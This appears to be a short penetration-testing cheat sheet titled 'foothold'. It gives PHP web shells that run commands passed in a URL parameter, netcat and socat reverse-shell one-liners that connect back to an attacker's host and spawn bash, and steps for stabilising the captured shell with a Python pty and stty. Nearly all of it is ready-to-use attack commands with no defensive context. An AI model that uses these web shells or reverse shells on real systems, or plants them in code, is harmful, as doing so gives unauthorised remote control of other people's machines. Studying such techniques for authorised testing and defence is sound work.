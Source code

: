 # foothold

## Web shells

- A simple PHP web shell.

```shell
<?php system($_GET['cmd']); ?>
```

```shell
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```

- The well known pentestmonkey php reverse shell [https://github.com/pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)

- A list of reverse shell payloads [https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).
Common payloads include

```
nc ip 1234 -e /bin/bash
```
```
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc ip 1234 >/tmp/f
```

## Socat

Listener

```shell
socat TCP-L:1234 FILE:`tty`,raw,echo=0 
```

Connect back to listener

```shell
socat TCP:me:1234 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

## Netcat

- Stabilize your shell using

```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

or (depending on Python version available)

```shell
python -c 'import pty;pty.spawn("/bin/bash")'
```

```shell
alias ls='ls --color=auto'
export TERM=xterm
```

- Set up autocomplete. Background the shell using `CTRL + Z` and run 

```shell
stty raw -echo; fg
```
to foreground the shell using tab completion.

